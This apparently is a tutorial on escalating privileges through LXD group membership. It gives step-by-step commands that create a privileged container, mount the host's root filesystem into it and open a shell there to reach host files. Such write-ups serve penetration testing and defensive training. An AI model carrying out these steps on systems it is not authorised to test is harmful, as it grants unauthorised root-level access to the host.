








### **Introduction**

LXD (Linux Containers Daemon) is a next-generation system container manager, designed to manage Linux containers in a more powerful and flexible way than traditional container technologies like Docker. It provides a user-friendly interface for managing containers and virtual machines, offering capabilities that make it suitable for both development and production environments.

### **Common Scenarios**

1.  Host Path Mounting: Gaining access to the host filesystem from within a container.
2.  Image Import with Elevated Privileges: Using custom container images configured to grant higher privileges.
3.  Misconfigured Container Permissions: Exploiting containers that are started with elevated permissions or insecure settings.

### **Exploiting LXC/LXD Step-by-Step**

1.  Check Group Membership, Ensure you are in the `lxd` group.  
    `id`  

    
    
2.  We have to run lxd first and follow the prompts as seen below  
    `lxd init`  

    
    
3.  Check for the release version, in this scenario I have 18.04  
    `lsb_release -a`  

    
    
4.  Create the instance & mount it  
    `lxc init ubuntu:18.04 test -c security.privileged=true`  
    
    

    `lxc config device add test whatever disk source=/ path=/mnt/root recursive=true`  
    
    
    
5.  Start the instance, and check its running state  
    `lxc start test`  
    `lxc info test`  
    
    
    
6.  Now execute bash within the instance  
    `lxc exec test bash`  
    
    
    
7.  Access the mounted partition /mnt/root  
    `cd /mnt/root`  
    
    